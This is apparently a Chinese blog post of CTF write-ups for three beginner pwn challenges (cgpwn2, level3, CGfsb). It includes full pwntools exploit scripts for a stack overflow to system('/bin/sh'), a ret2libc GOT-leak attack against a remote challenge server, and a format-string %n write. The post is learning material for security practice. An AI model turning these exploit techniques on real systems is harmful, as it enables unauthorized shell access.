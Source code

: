 ```yaml
---
title: 「攻防世界」Pwn - cgpwn2|level3|CGfsb WriteUps
date: 2021-12-30
tags: ["CTF", "Pwn", "writeup", "wp"]
authors: [nova]
---
```


## cgpwn2 | level3 | CGfsb

### **碎碎念**

因为这半个月事情很多（摆邮 major/APEX/期中考），加上新环境一直有问题，所以基本上没有什么关于 CTF 的内容:I 但是其他的事情也基本没什么进展

马上又要打比赛了，想着临时抱佛 jio 冲一哈，先把这几个简单的栈相关的题目搞一下:&lt;

原本想要每题都做一个详尽的 WP 水文章来着，但是好像比较基础就合在一起了:>

<!--truncate-->

### **cgpwn2**

直接拖进 checksec/ida

![https://oss.nova.gal/img/image-20211112104246870.png](https://oss.nova.gal/img/image-20211112104246870.png)

![https://oss.nova.gal/img/image-20211112105108027.png](https://oss.nova.gal/img/image-20211112105108027.png)

![https://oss.nova.gal/img/image-20211112112126099.png](https://oss.nova.gal/img/image-20211112112126099.png)

这题意图就很明显了：在第一个 gets 中输入指令（"/bin/sh"），第二个 gets 中溢出然后调用 system 函数

> system + 返回地址 + 指令

于是找出偏移和地址，轻松写出 exp>

```
from pwn import *

context(log_level='debug')

r = process('./53c24fc5522e4a8ea2d9ad0577196b2f')

r.recvuntil('your name\\n')
r.sendline(b'/bin/sh')

cmd_addr = 0x0804A080
system_addr = 0x08048420
payload = b'A'*0x2A + p32(system_addr) + p32(0) + p32(cmd_addr)

r.recvuntil('here:\\n')
r.sendline(payload)
r.interactive()
```

拿到 flag`cyberpeace{53e372c0f3209a11ef4429e8e2546bbf}`

### **level3**

看题目介绍应该是 ret2libc 的题，这是我第一题 libc 泄露，所以着重讲讲

> 知识点：CTF-WIKI

下载下来是一个 gz 压缩文件，解压出来是一个 so 文件和 elf 文件

（结果我 tar 解压的时候不知道为什么名字不能自动补全，手搓了 32 位 md5 码的文件名了属于是）

按照惯例 checksec 看一下(checksec 也不知道为什么软连接搞不上，我要吐力)

![https://oss.nova.gal/img/image-20211112114145579.png](https://oss.nova.gal/img/image-20211112114145579.png)

![https://oss.nova.gal/img/image-20211112140131570.png](https://oss.nova.gal/img/image-20211112140131570.png)

总之先上 EXP:

```
from pwn import *

context(log_level="DEBUG")
# r = process("./level3")
r = remote("111.200.241.244", 53829)
elf = ELF("./level3")
libc = ELF("./libc_32.so.6")

write_plt = elf.plt["write"]
write_got = elf.got["write"]
func = elf.sym["vulnerable_function"]

payload1 = b'a'*0x88 + b'aaaa' + p32(write_plt) + p32(func) + p32(1) + p32(write_got) + p32(4)
r.recvuntil("Input:\\n")
r.sendline(payload1)

write_addr = u32(r.recv(4))

write_libc = libc.sym["write"]
system_libc = libc.sym["system"]
bin_sh_libc = next(libc.search(b"/bin/sh"))
print('write_addr: ', hex(write_addr))

libc_base = write_addr - write_libc
system_addr = libc_base + system_libc
bin_sh_addr = libc_base + bin_sh_libc

print('bin_sh_addr: ', hex(bin_sh_addr))
print('system_addr: ', hex(system_addr))

payload2 = b'a'*0x88 + b'aaaa' + p32(system_addr) + p32(0) + p32(bin_sh_addr)
r.recvuntil("Input:\\n")
r.send(payload2)
r.interactive()
```

这里有个很奇怪的点，我写 exp 的时候用的是 Python3.10.0，但是本地调试的时候这个 exploit 是过不了的，换成 py2 又可以过

关键是我只更改了`bin_sh_libc`这里的代码，py2 用的是`generator.next()`，而 py3 用的是`next(generator)`，但是结果是一样的。

我把最后的 payload 打印出来对比也没有任何区别（肉眼上）。但是 Py3 远程又是能过的^ ^，不知道什么高手情况。

#### **分析**

整个程序非常简单，也只有一个`vulnerable_function`可以利用，但是程序中并没有利用到 system 函数，这里就自然的引出了 GOT 表泄露。

得益于 libc 的延迟绑定机制，我们如果知道 libc 中某个函数的地址，就可以通过其在程序中的地址与 libc 中地址的差算出偏移。又由于 libc.so 动态链接库中的函数之间相对偏移是固定的，得到了偏移，再通过 libc 中我们想要的函数的地址，就可以确定其函数在程序当中的地址。

```
payload1 = b'a'*0x88 + b'aaaa' + p32(write_plt) + p32(func) + p32(1) + p32(write_got) + p32(4)
```

首先看 payload1，先填充 buf 不多说，覆盖返回地址这里值得注意：

我们先将返回地址覆盖为 write_plt，再将 func 作为 write 函数的返回地址，后面再填 write 的三个参数，这样做的话在 write 结束后就又会跳转会`vulnerable_function()`这里，便可以截到 write 的 GOT 地址

接下来就是算偏移和找地址，不多赘述。

此时程序又一次运行到了`read()`函数这里，那直接轻松覆盖一个 system 函数上去就好了:>

### **CGfsb**

![https://oss.nova.gal/img/image-20211112141233440.png](https://oss.nova.gal/img/image-20211112141233440.png)

一眼 FormatString

需要使得`0x0804A068`这个地址的变量`pwnme`为 8

先找到格式化字符串的参数在第几个

```
from pwn import *

context(log_level="DEBUG")
r = process("./e41a0f684d0e497f87bb309f91737e4d")

r.sendlineafter("your name:\\n", p32(0x0804A068))
r.recvuntil('please:\\n')
r.sendline(b'AAAA' + b'%x.'*0x10)
r.recvuntil("is:\\n")
print(r.recv())
```

![https://oss.nova.gal/img/image-20211112142129570.png](https://oss.nova.gal/img/image-20211112142129570.png)

可以看到 41414141 在第十个参数的位置，那么我们只需要把 pwnme 的地址写入，然后通过%n 把 8 写入它就好了

最后的 exp:

```
from pwn import *

context(log_level="DEBUG")
r = process("./e41a0f684d0e497f87bb309f91737e4d")

r.sendlineafter("your name:\\n", p32(0x0804A068))
r.recvuntil('please:\\n')
r.sendline(p32(0x0804A068) + b'AAAA' + b'%10$n')
r.interactive()
```

至此，宣告 PWN 的新手区 AK（不容易啊 🥵）
